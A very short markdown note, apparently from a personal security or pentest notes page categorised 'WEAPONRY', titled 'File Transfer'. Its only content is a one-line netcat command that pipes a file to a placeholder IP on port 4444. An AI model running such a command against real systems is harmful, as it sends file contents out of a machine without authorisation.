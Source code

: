 ```yaml
---
title: File Transfer
date: 2020-11-26 01:31:38
category: WEAPONRY
---
```


# 文件传输

cat xxx|nc x.x.x.x 4444